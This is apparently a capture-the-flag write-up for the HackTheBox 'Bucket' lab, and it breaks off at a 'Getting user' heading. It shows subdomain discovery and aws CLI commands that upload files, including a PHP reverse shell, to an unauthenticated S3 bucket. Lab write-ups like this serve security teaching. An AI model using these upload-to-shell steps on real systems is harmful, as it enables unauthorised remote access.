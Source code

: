 A hostname ```bucket.htb``` is found from the nmap scan. Using this hostname we perform a subdomain bruteforce. Doing this we find a subdomain called ```s3```. The subdomain was found using gobuster in vhost mode. Browsing to the new subdomain shows the status of 2 different services s3 and dynamoDB.

![s3.bucket.htb](attachments/bucket1.png)

Searching these 2 services points towards Amazon's AWS. While searching this [link](https://blog.securelayer7.net/hands-on-aws-s3-bucket-vulnerabilities/) was found that detailed interacting with an s3 service from the command line. I then found out that we could upload files to the server using the s3 instance. I then uploaded a php reverse shell to the server and then navigated to it. Once I navigated to the shell I gained a remote shell from the server. The upload and being able to navigate to it was a little finiky and it took a couple of times to get it to work.

### Uploading files

```bash
aws s3 ls s3://adserver/ --endpoint-url=http://s3.bucket.htb/
                           PRE images/
2021-04-02 21:46:04       5344 index.html
tc@ubuntu:~/htb/Bucket$ aws s3 cp test.html s3://adserver/test.html --endpoint-url=http://s3.bucket.htb/
upload: ./test.html to s3://adserver/test.html
tc@ubuntu:~/htb/Bucket$ aws s3 ls s3://adserver/ --endpoint-url=http://s3.bucket.htb/
                           PRE images/
2021-04-02 21:46:04       5344 index.html
2021-04-02 21:46:58         18 test.html
```

### Uploading php shell

```bash
cp test.php s3://adserver/test.php --endpoint-url=http://s3.bucket.htb/
upload: ./test.php to s3://adserver/test.php
```

## Getting user
